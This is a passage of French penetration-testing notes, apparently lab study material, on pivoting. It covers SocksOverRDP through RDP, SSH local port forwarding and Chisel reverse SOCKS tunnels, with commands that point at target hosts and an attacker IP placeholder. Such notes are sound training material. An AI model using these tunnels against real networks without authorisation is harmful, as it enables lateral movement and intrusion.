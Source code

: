 4. Transférer SocksOverRDP-Server.exe sur la target2 et l'executer en tant qu'admin

5. Vérifier sur la target1 que le la machine écoute sur le port 1080

```cmd
netstat -antb | findstr 1080
```

5. Transférer proxifier portable sur la target 1

6. Le lancer et le configurer sur le listener en 127.0.0.1

7. Dans mstsc mettre les performancee en mode modem dans l'onglet experience.

8. Se connecter à la target3 depuis la target1 avec mstsc.


---

# TUNNELING & PORT FORWARDING

- [[#LOCAL PORT FORWARDING]]
- [[#**TUNNELING**]]
- [[#**REVERSE / REMOTE PORT FORWARDING**]]

## LOCAL PORT FORWARDING

> [!TIP]
> Permet de rediriger le trafic depuis la machine de l'attaquant ou point de pivot vers la machine cible.

### SSH

![[Pasted image 20250331000557.png]]


```bash
ssh -N -L <port local>:<serveur2>:<portserveur2> <user_serveur1>@<ip_serveur1>
```

Multiple ports

```shell
ssh -N -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

### CHISEL

Coté serveur

```bash
./chiselx64 server -p 8080 --reverse --socks5
```


Coté client

```bash
./chiselx64 client <ip_attacker>:<port_attacker> R:<port_accessible_depuis_attacker>:127.0.0.1:<port_a_rediriger>
```
